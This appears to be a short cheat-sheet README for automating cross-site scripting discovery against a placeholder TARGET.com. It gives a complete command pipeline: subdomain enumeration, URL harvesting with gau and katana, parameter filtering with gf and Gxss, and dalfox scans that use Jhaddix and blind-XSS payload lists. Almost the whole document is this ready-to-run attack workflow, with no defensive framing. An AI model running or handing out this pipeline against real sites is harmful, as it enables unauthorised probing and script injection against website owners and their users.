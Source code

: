 # XSS Automation

get subdomains for example subfinder/projectdiscovery
subs.txt

GetAllUrls
'''
echo "TARGET.com" | gau --threads 5 >> endp.txt
'''
CRAWL
'''
cat subs.txt | katana -jc >> endp.txt
'''


##Duplicate remover
'''
cat endp.txt | uro >> endp_F.txt
'''


##PARAMETERS
'''
cat endp_F.txt | gf xss >> XSS.txt
'''


##REFLECTED PARAMS
'''
cat XSS.txt | Gxss -p khXSS -o XSS_ref.txt
'''


## AUTOMATION SCANN FOR XSS

'''
dalfox file XSS_ref.txt -o Vul_XSS.txt
'''


## Simple URL
'''
 dalfox url https://TARGET.com/?affiliateID=88573&affiliateNetwork=ho&transaction_id=khXSS --custom-payload /usr/share/wordlists/seclists/Fuzzing/XSS/XSS-Jhaddix.txt
 '''


## Blind Xss with clear results
'''
 dalfox file XSS_ref.txt -o Vul_XSS.txt --custom-payload Attacks/XXS/blind-xss-payloads.txt
 '''

 
## Blind url
'''
dalfox url "https://TARGET.com/?q=khXSS&utm_content=sst_gc_gc_btn&utm_medium=cpc&utm_source=placement&utm_term=smallseotools" --custom-payload Attacks/XXS/blind-xss-payloads.txt 
'''